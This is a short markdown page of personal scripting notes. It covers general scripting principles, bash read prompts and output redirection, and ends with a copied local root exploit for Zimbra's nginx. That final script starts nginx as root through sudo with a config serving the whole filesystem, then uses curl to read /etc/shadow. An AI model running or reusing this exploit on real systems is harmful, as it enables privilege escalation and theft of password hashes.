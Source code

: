 # S c r i p t i n g

- _"A script should be run without errors"_
- _"It should perform the task for which it is intended"_
- _"Program logic is clearly defined and apparent"_
- _"A script does not do unnecessary work"_


Scripts should be reusable

## Waiting for user input
````powershell
read -p "Write the path: " variableName
read -p "Press [ENTER] when finished..."
````

## Redirecting output
Code
````powershell
sudo apt update > /dev/null 2>&1 

````

## zimbra-nginx-local-root-exploit
- [Source](https://darrenmartyn.ie/2021/10/25/zimbra-nginx-local-root-exploit/)
````
#!/bin/bash
echo "[+] making config"
cat <<EOF >/tmp/nginx.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
server {
    listen 1337;
    root /;
    autoindex on;
}
}
EOF
echo "[+] Launching..."
sudo /opt/zimbra/common/sbin/nginx -c /tmp/nginx.conf
echo "[+] Reading /etc/shadow..."
curl http://localhost:1337/etc/shadow
````
